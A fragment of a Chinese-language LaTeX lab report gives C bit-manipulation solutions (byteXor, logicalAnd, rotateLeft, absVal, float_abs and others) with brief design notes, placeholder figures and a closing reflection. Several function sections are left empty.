\label{fig:byteNote}
\end{minipage}
\end{figure}

\subsection{函数byteXor的实现及说明}

\textbf{程序如下:}
\begin{lstlisting}[language = c]
int byteXor(int x, int y, int n) {
	return !(!(0xFF & ((x ^ y) >> (n << 3))));
}
\end{lstlisting}

\begin{figure}[H]
\begin{minipage}[c]{0.5\linewidth}
		
\textbf{设计思想:}简单考虑,对所有位进行异或比较,然后取得所需要的字节部分的结果即可,使用两次逻辑取非,获得逻辑值。
		
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\centering

\includegraphics[width=0.9\linewidth]{figures/HIT}
\caption{btest截图-byteXor}
\label{fig:byteXor}
\end{minipage}
\end{figure}

\subsection{函数logicalAnd的实现及说明}
\textbf{程序如下:}
\begin{lstlisting}[language = c]
int logicalAnd(int x, int y) {
	return !(!x | !y);
}
\end{lstlisting}

\begin{figure}[H]
\begin{minipage}[c]{0.5\linewidth}
\textbf{设计思想:}使用逻辑非取得输入值的逻辑值,再进行位运算即可获得逻辑结果。
		
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\centering

\includegraphics[width=0.9\linewidth]{figures/HIT}
\caption{btest截图-logicalAnd}
\label{fig:logicalAnd}
\end{minipage}
\end{figure}

\subsection{函数logicalOr的实现及说明}
\textbf{程序如下:}

\begin{lstlisting}[language = c]
int logicalOr(int x, int y) {
	return !(!x & !y);
}
\end{lstlisting}

\begin{figure}[H]
\begin{minipage}[c]{0.5\linewidth}
\textbf{设计思想:}使用逻辑非取得输入值的逻辑值,再进行位运算即可获得逻辑结果。
		
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\centering

\includegraphics[width=0.9\linewidth]{figures/HIT}
\caption{btest截图-logicalOr}
\label{fig:logicalOr}
\end{minipage}
\end{figure}

\subsection{函数rotateLeft的实现及说明}
\textbf{程序如下:}
	
\begin{lstlisting}[language = c]
int rotateLeft(int x, int n) {
	int N_31 = ~n + 33;
	return (x << n) | ((~0u >> N_31) & (x >> N_31));
}
\end{lstlisting}
	
\begin{figure}[H]
\begin{minipage}[c]{0.5\linewidth}
\textbf{设计思想:}重点是发现 \lstinline[language=c]|-a=~a+1|,之后将数据位进行移动,使用掩码做多余数据消除,而后合并。
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\centering

\includegraphics[width=0.9\linewidth]{figures/HIT}
\caption{btest截图-rotateLeft}
\label{fig:rotateLeft}
\end{minipage}
\end{figure}

\subsection{函数parityCheck的实现及说明}
\subsection{函数mul2OK的实现及说明}
\textbf{程序如下:}

\begin{lstlisting}[language = c]
int mul2OK(int x) {
	return !(0x01 & ((x >> 31) ^ (x >> 30)));
}
\end{lstlisting}

\begin{figure}[H]
\begin{minipage}[c]{0.5\linewidth}
\textbf{设计思想:}主要是判断符号位是否发生了改变,若发生则是发生了溢出。
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\centering

\includegraphics[width=0.9\linewidth]{figures/HIT}
\caption{btest截图-mul2OK}
\label{fig:mul2OK}
\end{minipage}
\end{figure}

\subsection{函数mult3div2的实现及说明}
\subsection{函数subOK的实现及说明}
\subsection{函数absVal的实现及说明}
\textbf{程序如下:}

\begin{lstlisting}[language = c]
int absVal(int x) {
	return ((x >> 31) & (~(x - 1))) | (~(x >> 31) & x);
}
\end{lstlisting}

\begin{figure}[H]
\begin{minipage}[c]{0.5\linewidth}
\textbf{设计思想:}若为正则不做处理,若为负则进行\lstinline[language=c]|-a=~a+1|的逆运算,通过符号位的判断决定取得的值。
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\centering

\includegraphics[width=0.9\linewidth]{figures/HIT}
\caption{btest截图-mul2OK}
\label{fig:mul2OK}
\end{minipage}
\end{figure}

\subsection{函数float\_abs的实现及说明}
\textbf{程序如下:}

\begin{lstlisting}[language = c]
unsigned float_abs(unsigned uf) {
	unsigned sign = uf >> 31;
	unsigned exp = uf >> 23 & 0xFF;
	unsigned frac = uf & 0x7FFFFF;
	return uf & 0x7fffffff | (sign * ((exp == 0xFF && frac) << 31));
}
\end{lstlisting}

\begin{figure}[H]
\begin{minipage}[c]{0.5\linewidth}
\textbf{设计思想:}符号位置零,若发现该数值为NaN则将符号位重新补上。
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\centering

\includegraphics[width=0.9\linewidth]{figures/HIT}
\caption{btest截图-float-abs}
\label{fig:float-abs}
\end{minipage}
\end{figure}

\subsection{函数float\_f2i的实现及说明}
\subsection{函数XXXX的实现及说明函数(CMU多出来的函数-不加分)}


 %BITS函数实验与分析
\section{总结}
通过这次实验,对C语言中的位操作与逻辑操作有了更深刻的认识,收获很大。

\subsection{请总结本次实验的收获}
了解了C语言的位指令,移位指令,特别是对于有符号数和无符号数在移位上的区别认识更加深刻。

\subsection{请给出对本次实验内容的建议}
希望能够给出更详细的参考资料,感觉书籍与实验在内容上有些脱节。

%注:本章为酌情加分项。
 %总结

\nocite{ref1}
\nocite{ref2}
\nocite{ref3}
\nocite{ref4}
\nocite{ref5}
\nocite{ref6}
\nocite{ref7}

%参考文献
\bibliography{Ref/参考文献}

\end{document}